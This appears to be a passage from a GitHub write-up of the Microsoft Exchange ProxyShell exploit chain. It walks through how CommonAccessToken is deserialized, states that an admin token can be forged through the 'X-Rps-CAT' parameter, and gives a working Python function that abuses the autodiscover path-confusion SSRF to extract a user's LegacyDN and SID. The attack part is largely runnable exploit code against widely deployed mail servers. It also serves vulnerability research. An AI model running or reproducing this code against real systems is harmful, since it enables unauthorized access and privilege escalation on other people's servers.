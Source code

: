 

> Microsoft.Exchange.Security.Authorization.CommonAccessToken (deserialization process)

<img width="1073" alt="image" src="https://user-images.githubusercontent.com/37280106/129540057-3b6def40-f842-4283-aca9-13c20ef48842.png">

The pseudo code for the token deserialization:

```text
V + this.Version + T + this.TokenType C + compress + data
if compress => decompress
if AccessTokenType is Windows => DeserializeFromToken
```

<img width="970" alt="image" src="https://user-images.githubusercontent.com/37280106/129553511-6abd50c8-3fc3-49a9-8c92-59b0311e7916.png">

<img width="1074" alt="image" src="https://user-images.githubusercontent.com/37280106/129553904-94303325-c9b9-485a-a082-dc6de45305f9.png">


Pseudo code for DeserializeFromToken
```
A + this.AuthenticationType + L + this.LogonName + U + UserSID + G + Group Length + GroupSids
```

Now, we can craft an admin privilege CommonAccessToken via “X-Rps-CAT” parameter since we know how the Token is constructed

We need a UserSID to craft our token

```python
def get_sid(url: str, email: str):

    print("[-] Getting LegacyDN")
    body = f"""
        <Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006"><Request><EMailAddress>{email}</EMailAddress><AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema></Request></Autodiscover>
    """

    autodiscover_url = url + f"/autodiscover/autodiscover.json?@test.com/autodiscover/autodiscover.xml?&Email=autodiscover/autodiscover.json%3F@test.com"
    resp = requests.post(autodiscover_url, headers={
        "Content-Type": "text/xml"
    }, data=body.encode("utf-8"), verify=False)
    autodiscover_xml = ET.fromstring(resp.text)
    legacydn = autodiscover_xml.find('{*}Response/{*}User/{*}LegacyDN').text
    print("[+] Successfully get LegacyDN")
    data = legacydn
    data += '\x00\x00\x00\x00\x00\xe4\x04'
    data += '\x00\x00\x09\x04\x00\x00\x09'
    data += '\x04\x00\x00\x00\x00\x00\x00'

    headers = {
        "X-Requesttype": 'Connect',
        "X-Clientapplication": 'Outlook/15.1.2176.9',
        "X-Requestid": 'anything',
        'Content-Type': 'application/mapi-http'
    }
    print("[-] Getting User SID")
    sid_endpoint = url + f"/autodiscover/autodiscover.json?@test.com/mapi/emsmdb?&Email=autodiscover/autodiscover.json%3F@test.com"
    resp = requests.post(sid_endpoint, data=data,
                         headers=headers, verify=False)
    sid = resp.text.split("with SID ")[1].split(" and MasterAccountSid")[0]
    print("[+] Successfully get User SID")
    return sid

```